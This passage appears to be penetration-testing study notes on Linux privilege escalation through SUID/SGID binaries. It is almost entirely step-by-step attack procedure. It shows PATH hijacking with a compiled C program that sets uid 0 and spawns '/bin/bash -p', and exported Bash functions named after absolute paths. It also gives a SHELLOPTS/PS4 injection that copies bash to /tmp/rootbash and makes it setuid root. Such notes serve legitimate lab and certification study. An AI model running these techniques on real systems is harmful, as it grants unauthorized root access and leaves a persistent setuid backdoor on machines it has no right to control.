 ### $PATH

Strings: `strings /path/to/file`
strace: `strace -v -f -e execve <command> 2>&1 | grep exec`
ltrace: `ltrace <command>`

1. Find a SUID/SGID file to target.
2. Run strings on it.
3. If it has something without specified path, verify with strace:
`strace -v -f -e execve /path/to/suid/file 2>&1 | grep service`
4. Can also verify with ltrace: `ltrace /path/to/suid/file 2>&1 | grep service`
5. Create a service.c with:
```c
int main() {
	setuid(0);
	system("/bin/bash -p");
}
```
6. Compile service.c: `gcc -o service service.c`
7. Prepend current directory to \$PATH: `PATH=.:$PATH /path/to/suid/file`

### Abusing Shell Features

Some shells (like Bash < 4.2-048) have the ability to define user function with an absolute path name.

These can be exported so subprocesses can access them, and the functions take predecence over the actual file being called.

#### Method 1

1. Find a SUID/SGID file to target.
2. Run strings on it.
3. If it has something with a specified path, verify with strace:
`strace -v -f -e execve /path/to/suid/file 2>&1 | grep service`
4. Can also verify with ltrace: `ltrace /path/to/suid/file 2>&1 | grep service`
5. Verify our Bash version: `bash --version`
6. Create a bash function with the same name as the specified path (such as service):
```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```
7. Execute the SUID file to gain root

#### Method 2

Steps 1-4 above is the same.
5. Run SUID file with bash debugging and PS4 var:
```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash)' /path/to/suid/file
```
6. Run our new rootbash with -p to get shell: `/tmp/rootbash -p`

---
